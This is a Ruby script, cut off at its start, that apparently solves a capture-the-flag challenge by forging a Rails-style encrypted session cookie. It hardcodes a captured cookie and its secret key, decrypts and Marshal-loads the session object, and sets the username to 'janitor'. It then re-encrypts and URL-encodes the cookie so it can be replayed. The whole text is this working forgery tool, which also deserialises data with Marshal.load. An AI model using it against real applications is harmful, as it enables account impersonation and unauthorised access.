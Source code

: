 ```ruby
   cipher = OpenSSL::Cipher.new(CIPHER)
   cipher.encrypt
   cipher.key = secret[0, cipher.key_len]

   # Rely on OpenSSL for the initialization vector
   iv = cipher.random_iv

   # This must be set to properly use AES GCM for the OpenSSL module
   cipher.auth_data = auth_data
   cipher_text = cipher.update(data)
   cipher_text << cipher.final

   "#{base64_encode cipher_text}#{DELIMITER}#{base64_encode iv}#{DELIMITER}#{base64_encode cipher.auth_tag}"
end

def decrypt_message(data, secret)
    return unless data

    cipher = OpenSSL::Cipher.new(CIPHER)
    cipher_text, iv, auth_tag = data.split(DELIMITER, 3).map! { |v| base64_decode(v) }

   # This check is from ActiveSupport::MessageEncryptor
   # see: https://github.com/ruby/openssl/issues/63
   return if auth_tag.nil? || auth_tag.bytes.length != 16

   cipher.decrypt
   cipher.key = secret[0, cipher.key_len]
   cipher.iv  = iv
   cipher.auth_tag = auth_tag
   cipher.auth_data = ''

   decrypted_data = cipher.update(cipher_text)
   decrypted_data << cipher.final
   decrypted_data
   rescue OpenSSL::Cipher::CipherError, TypeError, ArgumentError
    nil
end

c = "gamxdb2ML/3uahCEluToNpGnPwgKQjpkeEQBqd+I4LfvUEd0gm98tEBqEPnB2fYsKbhG/e27rscoTYous4UBqMzrZjAke65gMOtC8n2A9GGH3IJ5y3PQY/GySW1N1I1A37/gCXPm2SdiaDCck4wNnaJ3Yi2PY33GD1L8tEs1fqtqSPfUZDDhFaXXKsnDBbgVyFA9dYs3RMd5Sb1GE7VrSUYSYRFrKT6ZCNH0g+AKyzEJLCLvmt2sWI8UEQEkorUCTCMdcQ6nQ3wVBpzwvhSy2P5kKYRO5WWr+30Xjq9j7+is8ryPtxQHRk4y4MgYyRbB+HvvL/JgPtY9nbPPnOfMiBWROVcY9rHBAmZz3dxCuFoB3LhEiIFUxgEY1iPCCycKjXSxoyA+T+3uotRc6b1Yd02xpYbUnXox--zvcxYAYFvc7xc9CI--IPBPqUV2BtZDig9u60JirA=="
secret = ['9bab60cdf2778ef6bc56bcc76abdc9ce6cdce3b2f47c60e0dcde4b4c8f81f976febf3118e1a8bfaaeb6fc9815ea93a5bf544963b79d8a655a2b51455b2a80a5b'].pack('H*')
object = Marshal.load(decrypt_message(c, secret))
object['username'] = "janitor"

pp object

enc = encrypt_message(Marshal.dump(object), secret).gsub("=", "%3D").gsub("/", "%2F").gsub("+", "%2B").gsub(".", "%2E")
print "\n" + enc + "\n"
```
